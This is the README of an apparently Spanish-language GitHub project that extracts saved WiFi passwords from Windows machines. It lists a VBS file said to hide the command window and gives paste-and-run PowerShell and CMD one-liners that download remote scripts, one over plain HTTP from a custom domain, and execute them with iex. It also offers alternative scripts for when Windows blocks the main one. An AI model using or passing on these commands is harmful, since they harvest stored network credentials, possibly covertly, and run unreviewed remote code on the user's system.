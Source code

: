 # Get-WlanProfiles

### Extraer/Obtener contraseñas de WIFI almacenadas en Windows.
Archivos:
<br>Extras/extra1.ps1
<br>Get-WlanProfiles.bat
<br>Get-WlanProfiles.psm1
<br>On-Get-WlanProfiles.ps1
<br>config.vbs - oculta ventana CMD

# Como Ejecutarlo
## Local
-Descague los archivos
<br>-Ejecute el archivo Get-WlanProfiles.bat o en su defecto confi.vbs

## Sin descargar - WEB
### PowerShell
-Abra Powershell<br>
-Pegue y ejecute este comando:
```
iwr -useb https://raw.githubusercontent.com/migzam10/Get-WlanProfiles/main/On-Get-WlanProfiles.ps1 | iex
```
### CMD
-Abra CMD<br>
-Pegue y ejecute este comando:
```
powershell iex ((New-Object System.Net.WebClient).DownloadString('http://on-get-wlanprofiles.migzam.com'))
```
# Extras
En la carpeta Extras se encuentras alternativas al codigo principal ya que windows en ocaciones bloquea el script.<br>
-Abra PowerShell<br>
-Pegue y ejecute este comando:<br>
```
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/migzam10/Get-WlanProfiles/main/Extras/extra1.ps1'))
```

